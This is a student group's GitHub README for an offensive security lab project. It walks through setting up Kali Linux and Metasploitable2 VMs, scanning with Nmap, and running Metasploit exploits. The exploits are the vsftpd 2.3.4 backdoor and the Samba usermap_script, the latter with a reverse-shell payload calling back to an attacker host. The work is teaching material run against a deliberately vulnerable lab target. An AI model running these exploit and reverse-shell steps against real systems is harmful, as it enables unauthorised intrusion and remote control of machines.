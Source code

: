 # Offensive Security Tools and Research

---

### Group Members
- Ryan Eisenbeis, Grayson Oldham, Owen Richard, Nycahri Grffin

### Project Description

- The purpose of this project is to conduct offensive security research focused on identifying 
vulnerabilities within IT systems and improving cybersecurity defenses. The project will simulate real-world attacks
using a controlled environment that includes a Kali Linux VM and a Metasploitable2 VM, providing a platform for
vulnerability discovery and exploitation. The primary tools used in this research will be Metasploit Framework and Nmap,
focusing on how they can be utilized to find and exploit vulnerabilities.

### Tools Used

- `Oracle VirtualBox VM` a virtualization software used for creating VMs
- `Metasploitable2 VM` a VM purposefully configured to have exploitable vulnerabilities, also the target VM for this project
- `Kali Linux VM` a VM configured with pre-installed offensive security tools, also the attacking VM in this project
- `Nmap` a network mapping Linux tool used to scan IP addresses and ports on a network
- `Metasploit Framework` a penetration testing Linux tool used for identifying and exploiting vulnerabilities on a system
 
---

# Phase 1 Objectives

- Set up the `Kali Linux VM` as the attack system and the `Metasploitable2 VM` as the target.
- Use `Nmap` for port scanning and discovering vulnerabilities on the target system, followed by using the `Metasploit
Framework` to exploit the vulnerabilities.
- Document the technical steps taken and our findings.


# Phase 1.1 - Setting up the Metasploitable 2 VM

- Download `Oracle Virtual Box VM` software from https://www.virtualbox.org
- Download the `Metasploitable2` iso image from http://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download
- Extract the files from the downloaded zip file
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **2 GB Memory**
  + **1 CPU**
  + **Create a Virtual Hard Disk (or Use an Existing Hard Disk File)**
- Change **Network Adapter** to **Host-only Adapter** in the `Metasploitable2 VM` machine settings
- Start the `Metasploitable2 VM` 


# Phase 1.2 - Setting up the Kali Linux VM
- Download the `Kali Linux` iso image from https://www.kali.org/get-kali/#kali-installer-images
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **8 GB Memory**
  + **4 CPUs**
  + **Create a Virtual Hard Disk with 80 GB of storage**
- Start the `Kali Linux VM`
- Select "Graphical Install" on the boot up menu
- Choose basic machine preferences
- Provide login credentials
- Choose clock settings
- Partition the Virtual Hard Disk with the following options:
  + **All files in one partition**
  + **Use entire disk**
  + **Select the /dev/sda ATA VBOX HARDDISK partition**
  + **Select "Yes" to write changes to the disk**
  + **Finish partitioning and write changes to disk**
- Select software preferences
- Install the GRUB bootloader on the /dev/sda partition
- Reboot the `Kali Linux VM` and sign in using login credentials

# Phase 1.3 - Port Scanning using Nmap

- The first step is to boot up the `Kali Linux Vm` and the `Metasploitable2 VM`
- Once both VMs are started, we need to obtain the IP address of the target system
- To do this, run the following command in the `Metasploitable2 VM` terminal

**Displays IP configuration information on the system**
``` 
ifconfig
```

- Next, we will run an `Nmap` port scan to find all the open ports on the `Metasploitable2 VM` using the following command

**Scans all 65,535 ports on the target system and returns every port that is open**
```
nmap -p- <target ip>
```

# Phase 1.4 - Exploiting using Metasploit Framework

- Now that we know the open ports on the target system, we can switch to the `Metasploit Framework` tool to exploit some vulnerabilities
- In our case, the file transfer protocol (FTP) port 21 was open, so we will exploit an `FTP` shell access vulnerability on the target system using the following commands using `Metasploit Framework` on the `Kali Linux VM`

**Uses the format `category/OS/service/specific_exploit`**
```
use exploit/unix/ftp/vsftpd_234_backdoor
```
**Sets the remote host to the IPv4 address of the target system**
```
set RHOST <target ip>
```
**Runs the exploit**
```
exploit
```

- Next, we can run the following command to gain remote access to the target system via the open `telnet` port

**Connects to a remote system using the telnet protocol using the format `service target_ip port_number`**

```
telnet <target ip> 23
```

- We can also access the shell of the target system via the `samba` service by using the following commands

**Loads the exploit to target a samba vulnerability**
```
use exploit/multi/samba/usermap_script
```
**Sets remote host IP address of target system**
```
set RHOST <target ip>
```
**Sets payload to open a reverse shell**
```
set payload cmd/unix/reverse
```
**Sets IP address of host machine where the reverse shell will connect**
```
set LHOST <host ip>
```
**Sets the port on the host machine that will listen for the reverse shell**
```
set LPORT 4444
```
**Runs the exploit**
```
exploit
```